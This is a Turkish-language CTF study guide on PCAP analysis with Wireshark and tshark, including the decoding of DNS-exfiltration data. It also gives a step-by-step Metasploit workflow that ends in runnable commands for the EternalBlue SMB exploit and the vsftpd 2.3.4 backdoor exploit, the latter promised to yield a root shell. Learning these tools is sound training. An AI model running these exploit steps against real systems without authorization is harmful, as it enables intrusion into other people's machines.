


# 🌐 05. Network Analizi (Wireshark / `tshark`) & Metasploit — Adım Adım Rehber

Bu modül; `wik wireshark`, `wik wireshark more complex` ve `wik metasploit` notlarının temizlenip **adım adım operasyon akışına** dönüştürülmüş halidir.

---

## 🗺️ Adım Adım Nasıl Analiz Edilir ve Sömürülür?





---

## A. Wireshark & `tshark` ile Adım Adım PCAP Analizi

1. **Adım 1 — Genel Bakış:** `Statistics -> Protocol Hierarchy` ile trafikte hangi protokollerin (HTTP, DNS, TCP) ağırlıkta olduğunu gör.
2. **Adım 2 — Katmanlı Filtreleme (Display Filters):**
   * Capture vs Display filtre farkını unutma; `ip.addr == 192.168.1.2`, `tcp.port == 80`, `tcp.stream eq 5`, `dns && ip.dst == <IP>`.
3. **Adım 3 — Akış Takibi & Red Herring Tuzakları:**
   * Pakete sağ tık → `Follow -> TCP Stream`. İlk karşına çıkan açık metin `/flag` istekleri sahte yem (**Red Herring**) olabilir; tüm akışları kontrol et.
4. **Adım 4 — `tshark` ile Hızlı Otomasyon:**
   ```bash
   # 1. TCP Stream 5 içeriğini çekip ROT13 çözme
   tshark -r shark1.pcapng -q -z follow,tcp,ascii,5 | tr 'A-Za-z' 'N-ZA-Mn-za-m' | grep "picoCTF"

   # 2. DNS Exfiltration: Sadece hedef IP'ye giden subdomain parçalarını toplayıp Base64 çözme
   tshark -r shark2.pcapng -Y "dns && ip.dst == 18.217.1.57" -T fields -e dns.qry.name | cut -d '.' -f 1 | uniq | tr -d '\n' | base64 -d
   ```
   *(Dikkat: `cut -d '.' -f 1` yazımında `-d` ve `-f` arası boşluklu olmalı ve gürültüyü önlemek için mutlaka `ip.dst` filtresi eklenmelidir.)*

---

## B. Metasploit 4 Adımlı Operasyon Döngüsü (`Scan -> Store -> Identify -> Exploit`)

1. **Adım 1 — Workspace İzolasyonu & Tarama:**
   ```bash
   msfconsole
   workspace -a hedef_proje
   db_nmap -sV -sC <HEDEF_IP>
   ```
2. **Adım 2 — Veritabanını Sorgula:** `hosts` ve `services -S <servis_adi>` ile açık servisleri listele.
3. **Adım 3 — Scanner & Toplu Hedef Atama (`hosts -R` / `services -R`):**
   ```bash
   search type:auxiliary <servis_veya_CVE>
   services -p 445 -R
   run
   vulns
   ```
4. **Adım 4 — Doğrulama (`check`) ve Exploit:**
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS <HEDEF_IP>
   check
   run
   ```
   *(Diğer klasik örnek: `use exploit/unix/ftp/vsftpd_234_backdoor` → root shell.)*
